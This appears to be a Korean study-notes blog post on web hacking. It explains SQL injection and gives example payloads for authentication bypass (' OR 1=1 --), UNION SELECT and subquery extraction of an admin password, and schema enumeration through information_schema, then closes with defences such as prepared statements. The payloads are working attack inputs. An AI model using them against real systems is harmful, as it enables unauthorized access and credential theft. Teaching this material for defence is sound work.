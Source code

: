 ```yaml
---
title: "[웹 해킹] 1.SQL Injection"
date: 2025-06-12 11:05 +0900
categories: ["Hacking", "SQL Injection"]
tags: [web, Backend]
mermaid: true
---
```


SQL Injection은 웹 애플리케이션에서 사용자 입력값을 적절한 필터링 없이 SQL 쿼리에 직접 포함시켜 실행할 경우 발생하는 보안 취약점이다. 이로 인해 공격자는 인증 우회, 데이터베이스의 구조 파악, 데이터 유출 또는 데이터 조작 등의 행위를 할 수 있다.

* SQL 구문을 삽입하여 의도하지 않은 쿼리 실행 가능
* 인증 우회, 정보 유출, 테이블 삭제 등 다양한 공격 가능
* 동적 쿼리 구성 시 사용자 입력값에 대한 적절한 검증이 없을 경우 발생

## 2. SQL Injection을 통한 인증 우회

### 예시 시나리오

```sql
SELECT * FROM users WHERE id = '$user_id' AND pw = '$user_pw'
```

### 정상 입력

* ID: guest
* PW: guest
* 결과: 정상 로그인

### 공격 입력

* ID: ' OR 1=1 --
* PW: (아무 값)
* 결과: 조건이 항상 참이 되므로 인증 우회 가능

#### 변형된 공격

```sql
SELECT * FROM users WHERE id = '' OR 1=1 --' AND pw = 'trash'
```

→ SQL 문이 항상 참이 되어 우회 성공

## 3. 탐지 방법

### Whitebox Testing

* 서버 소스 코드 접근이 가능한 경우
* SQL 쿼리 구성 방식 확인
* 입력값이 직접 쿼리에 포함되는지 점검

### Blackbox Testing

* 외부에서만 접근 가능한 경우
* 취약점 존재 여부를 다음과 같은 방식으로 확인:

  * 특수문자 입력 (`'`, `--`, `#`, `"`, `\`) 후 500 오류 발생 확인
  * 입력값에 대한 응답 패턴 분석
  * Brute Force 기법 활용

# Union Select SQL Injection

## 1. 개요

UNION SELECT 구문을 사용하여 여러 SELECT 쿼리의 결과를 병합해 출력하는 SQL 인젝션 기법이다. 이 기법을 통해 다른 테이블의 정보까지도 추출할 수 있다.

* 출력 결과가 있는 페이지에서 주로 사용됨 (예: 게시판, 리스트)

## 2. 기본 공격 흐름

```sql
SELECT title, content, user FROM board WHERE idx=1
```

→ 공격자 입력:

```sql
1 UNION SELECT 1,2,3
```

→ 실행 쿼리:

```sql
SELECT title, content, user FROM board WHERE idx=1 UNION SELECT 1,2,3
```

## 3. 민감 정보 탈취 예시

```sql
1 UNION SELECT title, content, password FROM users WHERE id='admin'
```

→ 결과:

* title: 1
* content: 2
* user: PASSWORD

출력 위치를 통해 민감 데이터가 그대로 노출됨

# SQL Subquery Injection

## 1. 개요

서브쿼리(subquery)를 활용한 SQL Injection은 중첩 SELECT 문을 삽입하여 DB 내부의 민감한 데이터를 추출하는 방식이다.

예시:

```sql
SELECT name FROM player WHERE team_id=(SELECT team_id FROM team WHERE name='A')
```

## 2. 서브쿼리 삽입을 통한 정보 노출

```sql
1 UNION SELECT 1, (SELECT pw FROM users WHERE id='admin'), 3
```

→ 결과:

* title: 1
* content: ADMIN PW
* user: 3

# SQL Injection 공격 절차 정리 (FLOW)

## 1. 칼럼 개수 확인

칼럼 개수가 일치하지 않으면 에러 발생 → 칼럼 개수를 정확히 맞추는 것이 중요함

```sql
-- 실패:
SELECT title, content FROM board WHERE idx=1 UNION SELECT 1

-- 성공:
SELECT title, content, user FROM board WHERE idx=1 UNION SELECT 1,2,3
```

## 2. SQL 종류 확인

DBMS 종류에 따라 시스템 정보 테이블이 다름

* MSSQL → `sys`
* MySQL, MariaDB, Oracle → `information_schema`
* SQLite → `sqlite_master`

## 3. DB 구조 확인 및 정보 추출

### 정보 스키마 테이블 사용

```sql
SELECT * FROM information_schema.tables;
SELECT * FROM information_schema.columns WHERE table_name='users';
```

### 추출 가능한 정보

* TABLES: 테이블 목록
* COLUMNS: 열 정보
* SCHEMATA: 스키마 목록
* ENGINES: DB 엔진 정보

### 실제 활용 예시

* 사용자 테이블의 컬럼명을 알아낸 후, 원하는 정보 추출 가능

```sql
SELECT id, password FROM users;
```

# 결론

SQL Injection은 단순한 입력 조작만으로도 시스템을 장악하거나 민감한 데이터를 탈취할 수 있는 심각한 취약점이다. 방어 측면에서는 Prepared Statement, ORM 사용, 입력값 필터링, 최소 권한 원칙 등이 반드시 적용되어야 한다.
